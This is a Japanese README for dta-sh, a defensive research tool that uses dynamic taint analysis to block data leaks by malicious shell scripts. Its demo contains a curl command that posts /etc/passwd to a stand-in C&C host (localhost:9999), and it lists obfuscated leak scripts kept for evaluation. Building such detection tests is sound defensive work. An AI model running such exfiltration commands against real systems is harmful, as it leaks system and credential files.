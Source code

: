 # 動的テイント解析を用いた悪性シェルスクリプトによる情報漏洩の阻止

dta-sh は動的テイント解析を用いて悪性シェルスクリプトによる情報漏洩を阻止するためのツール。
動的テイント解析には[libdft64](https://github.com/AngoraFuzzer/libdft64)を用いる。

## クイックスタート
`/etc/passwd`を外部に漏洩させるシェルスクリプトスクリプトの漏洩を阻止するデモ。
このシェルスクリプトはcurlコマンドを使用してPOSTリクエストで外部にファイルを送信する。
`src/sendfile.sh`にある。
```bash
# 情報漏洩を行うコマンド
curl -X POST -F f=@"/etc/passwd" localhost:9999
```
ファイルの送信先（漏洩先）は自分自身とする。
本来localhost:9999の部分は攻撃者が用意するC&Cサーバのドメイン名であるが、漏洩させるファイルを自身で受け取るためここではlocalhostとなる。

### デモの実行方法
環境は Ubuntu 20.04 LTS or 22.04 LTSで動作確認済み（WSL2でも動く）。

```bash
# 依存関係をインストール（初回のみ）
./setup.sh

# 環境変数(PIN_ROOT)を設定
source env.init

# POSTリクエストを受け取るHTTPサーバを起動
python3 server.py &

# dta-shをビルド
cd src
make

# デモを実行
make demo
```
ログがたくさん出て、最終的に`[pid 93112] alert           : !!!! ABORT !!!!    Data leak detected`と出力されたらこのデモは成功。
うまく行かない場合は[FAQ](#FAQ)を参照。

`make demo`を実行した際、デフォルトでは`../script/default.sh`が使用される。
情報漏洩を行うスクリプトは他にも`script/`下にあり、`SCRIPT=<スクリプトのパス>`を指定することでそのスクリプトを使用できる。
```bash
# スクリプトを指定してデモを実行
make demo SCRIPT=../script/pipeline.sh
# or
make demo SCRIPT=pipeline.sh
```

### dta-shを使わない場合
作成したツール dta-sh を使わない場合どうなるか確認。
単に`sendfile.sh`を実行する。
```bash
./sendfile.sh
```
先程サーバを起動したターミナルに戻ると、赤文字の`/etc/passwd`の内容が出力されているはず。
これはサーバが受け取ったデータで、POSTリクエストにより`/etc/passwd`の内容が漏洩した。

## 各ディレクトリ・ファイルの説明
```
.
├── pin-3.20-98437-gf02b61307-gcc-linux/        # libdft64の依存ライブラリ
├── pin-3.20-98437-gf02b61307-gcc-linux.tar.gz  # ↑の圧縮ファイル
├── libdft64/   # 動的テイント解析ライブラリ
├── README.md   # このファイル
├── env.init    # 環境変数(PIN_ROOT)の設定
├── script/                         # 評価用のスクリプト
│   ├── default.sh                  # 評価基準
│   ├── alias.sh                    # エイリアス
│   ├── variable-alias.sh           # 変数を使ったエイリアス
│   ├── ansi-c-quoting.sh           # 難読化：ANSI-C Quoting(Bashの機能)
│   ├── bashfuscator.sh             # 難読化：Bashfuscator(サイズ小)
│   ├── long-bashfuscator.sh        # 難読化：Bashfuscator(サイズ大)
│   ├── command-substitution-1.sh   # コマンド置換(変数経由)
│   ├── command-substitution-2.sh   # コマンド置換(引数へ直接)
│   ├── pipeline.sh                 # パイプ
│   ├── process-substitution.sh     # プロセス置換
│   └── redirecting-input.sh        # 入力リダイレクト
├── server.py   # POSTリクエストを受け取るHTTPサーバ
├── setup.sh    # セットアップファイル
└── src/                # ソースコード
    ├── dta-sh.cpp      # ツールの本体
    ├── dta-sh.h        # ヘッダファイル
    ├── Makefile        # ビルドスクリプト
    ├── makefile.rules  # ビルドスクリプト
    └── sendfile.sh     # 情報漏洩を行うシェルスクリプト
```

## FAQ
エラーに関するものは起きたエラーがそのままタイトル。

### Makefile:18: /Config/makefile.default.rules: No such file or directory
[`PIN_ROOT`](#PIN_ROOTとは)が設定されておらず、PinのMakefileが見つからない。
Pinのディレクトリを環境変数経由で教えてやる。

```bash
source env.init
```

### dta-sh.cpp:58:15: error: unused variable 'sockfd' [-Werror=unused-variable]
Pintoolのコンパイルに`-Werror`が有効なため、WarningがすべてErrorとして扱われる。
Pintoolのコンパイルオプションはpin-3.20-98437-gf02b61307-gcc-linux/source/tools/Config/makefile.unix.configで定義されているため、`-Werror`を削除することでコンパイルが通る（WarningはWarningとして扱われる）。

```diff
- TOOL_CXXFLAGS_NOOPT := -Wall -Werror -Wno-unknown-pragmas -DPIN_CRT=1
+ TOOL_CXXFLAGS_NOOPT := -Wall -Wno-unknown-pragmas -DPIN_CRT=1
```

### likely()/unlikely()
条件分岐を最適化するためにコンパイラに与えるヒント。
libdft64/src/branch_pred.hで定義されている。

ref. https://stackoverflow.com/questions/109710/how-do-the-likely-unlikely-macros-in-the-linux-kernel-work-and-what-is-their-ben

### curl: (7) Failed to connect to localhost port 9999 after 468 ms: Connection refused
ローカルサーバが立っていない。
サーバを立ててやる。`&`はバックグラウンド実行の意味（Bashの機能）。

```
python3 server.py &
```

### PIN_ROOTとは
libdft64にPinのパスを教えるための環境変数。
make時、libdft64はこの変数を読んでpin.Hなりの場所を知る。

ref. https://software.intel.com/sites/landingpage/pintool/docs/98650/Pin/doc/html/index.html#UsefulVariables

### なぜMakefileとmakefile.rulesの2つがあるのか
Makefileは設定（ビルド用の変数`CXX := g++`など）を読み込む、ビルドレシピを読み込むファイル、
makefile.rulesはビルドするlibdft toolを定義するファイル。
Makefileは編集せず、makefile.rulesにのみビルドするlibdft toolを定義する。
変数などが隠されていて分かりにくい部分もあるが、libdft64/toolsのビルド方法をそのまま採用した。

### libdft tool（dta-sh.cppなど）のビルドレシピの場所
libdft toolを作る場合は、明示的にツールのビルドレシピを定義しなくてよい。
makefile.rulesの`TOOL_ROOT`にビルドするツールのファイル名（の拡張子を取ったもの）を定義するだけ。
詳細なビルドレシピは別の場所で定義されていて隠されている。
例えば、dta-sh.cppというlibdft toolをビルドするためには`TOOL_ROOT := dta-sh`と定義する。
するとmakeを実行するだけでobj-intel64/dta-sh.soというファイルが生成される。

### コールバック関数のTHREADIDとは
本ツールでは使わない。
THREADIDはPinのスレッドが使用するデータの配列へのインデックス。
ここでのスレッドはWinAPIのスレッドやPthreadsのスレッドではなく、Pinが管理するスレッド。

> Pin also provides an analysis routine argument (IARG_THREAD_ID), which passes a Pin-specific thread ID for the calling thread. This ID is different from the O/S system thread ID, and is a small number starting at 0, which can be used as an index to an array of thread data or as the locking value to Pin user locks. See the example Instrumenting Threaded Applications for more information.

ref. https://software.intel.com/sites/landingpage/pintool/docs/98650/Pin/doc/html/index.html#MT
